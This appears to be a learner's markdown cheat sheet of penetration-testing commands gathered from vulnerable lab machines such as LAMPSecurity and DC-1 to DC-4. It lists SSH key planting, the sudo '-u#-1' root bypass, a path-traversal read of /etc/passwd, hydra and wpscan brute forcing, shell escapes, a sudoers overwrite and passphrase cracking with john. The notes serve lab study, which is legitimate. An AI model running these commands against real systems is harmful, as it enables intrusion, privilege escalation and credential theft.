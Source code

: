# interesting commands

```
echo LinEnum.sh | base64 |xclip -selection clipboard
grep -R password file_name
grep password . -B1 : get also the element before.
grep passwd /var/log/auth.log : permet de savoir la date de changement des mots de pass

```
if in the target system there is .ssh folder,I can generate my pub,priv key with **keygen -f name** and copy my public key and paste it inside .ssh (authorized_keys) ====>>> then I can connect with my private key: **ssh -i privkey user@targetip**.

```
scp -i privatekey user@targetip:/home/user.txt . : transfert user.txt to my local directory
```
## sudo abusing
```
vi visudo : to open the file listed with sudo -l
if in the file there is: user  ALL=(ALL,!root) ALL
I can run any commande with root priviledge like this: sudo -u#-1 /bin/bash  => BOOM,root access
ALso: user  ALL=(ALL,!abdo) ALL, I can have root access: sudo -u#-1 /bin/bash
bug fixed in 1.8.28  => get your current version $ sudo -V
```
#### LAMPSecurity-4
what I had learn from this machine is:
```
authenticity with private key with ssh : copy my public key to .ssh/authorized_key 
id => cat /etc/group, find / -group grp_name -type f 2>/dev/null
```
#### LAMPSecurity-5
what I had learn from this machine is:
```
smbclient --list //10.0.4.13/ -U "" : list the shared folders
smbclient //10.0.4.13/folder/ -U "" : get in 
grep -Ri password /home/*   : 
searchsploit linux kernel 2.6 : deux chiffre
ls /etc | grep release : know the distribution of the OS
https://10.0.4.13/?page=/../../../etc/passwd%00
hydra -L users -P /usr/share/wordlists/rockyou.txt 10.0.4.13 ssh -V
```
#### DC-1
what I had learn from this machine is:
```
find / -exec /bin/sh \;
```
#### DC-2
what I had learn from this machine is:
```
./wpscan --url http://dc-2/
./wpscan --url http://dc-2/ --enumerate : enumerate users
./wpscan --url http://dc-2/ --usernames file -w wordlist : brute force wp-login.php authenticity
ssh -p- dc-2 : check all ports
ssh -p 7744 tom@dc-2
how to bypass rbash shell : vi,echo os.system('/bin/bash') => https://sushant747.gitbooks.io/total-oscp-guide/escaping_restricted_shell.html
```
this one is soo interesting: https://sushant747.gitbooks.io/total-oscp-guide/vim.html

#### DC-3
what I had learn from this machine is:
```
locate -r .nse$ | grep joomla : look nmap script appropriate to my need
searchsploit linux kernel 4.4 : copier and paste sur google that may have repository in github.
```
#### DC-4
what I had learn from this machine is:
```
requests.post(url).status_code
brute force with burp suite with a wordlist <1000 words
echo "user ALL=(ALL) ALL" | sudo tee /etc/sudoers : tee priviledge escalation
```
#### JIS-CTF01
what I had learn from this machine is:
```
grep -rli 'technawi' --exclude-dir=/proc . 2>/dev/null
```
#### Basic-pentest-2
what I had learn from this machine is:
```
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.0.4.22 
http-get /manager/html -V : brute force tomcat authentofocation.
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -V : meme chose que la premiere
HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -t 1 -V :  send the request to burp suite

enum4linx 10.0.4.22: list all shared files and groups and user systems
ssh2john id_rsa file.txt :  to retrive the passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt file.txt : return the passphrase
ssh -i id_rsa kay@10.0.4.22
```
S00 interesting article in SMB enumeration:https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/




